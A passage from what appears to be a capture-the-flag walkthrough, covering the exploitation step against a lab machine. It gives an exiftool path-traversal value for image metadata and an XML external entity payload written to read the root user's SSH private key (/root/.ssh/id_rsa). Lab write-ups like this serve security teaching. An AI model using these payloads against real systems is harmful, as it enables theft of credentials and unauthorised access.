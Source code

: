 ### Exploitation

Now we just have to set all of this up. Let's start by giving ourselves a spot to host all of our files. Run this on the box

```bash
mkdir /tmp/stby
cd /tmp/stby
```

Next, we'll prepare our image. Just grab any image and download it to your local machine. I just grabbed `angy.jpg` from the site. Navigate to wherever the file is stored on your PC and run the following

```bash
exiftool angy.jpg -artist=../tmp/stby/gotit
mv angy.jpg img.jpg
```

This `exiftool` command will change the artist metadata so it points to where we'll be storing our XML file, which we'll create right now.

Run

```bash
nano gotit_creds.xml
```

and add this to the file
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE X [
  <!ENTITY secret SYSTEM "/root/.ssh/id_rsa">
]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../tmp/stby/img.jpg</uri>
    <views>7</views>
     <extra>&secret;</extra>
  </image>
  <totalviews>8</totalviews>
</credits>
```

Save and exit.

The URI points to where we're going to store the image we just created and the content in the `DOCTYPE` header will get us the root SSH key, which will then be stored inside the `<extra>` tags when this file is processed by the script. Getting this SSH key is mostly a shot in the dark. We're hoping that an SSH private key exists on the server and that no one has changed it from its default name of `id_rsa`. We could just get the contents of `/root/root.txt` instead and that would be a more sure shot, but that's not as fun as getting a shell.

Now let's move all of this over to the box. Move both `img.jpg` and `gotit_creds.xml` to the `www` folder you created earlier.. Make sure that python web server we started earlier is still runnin.
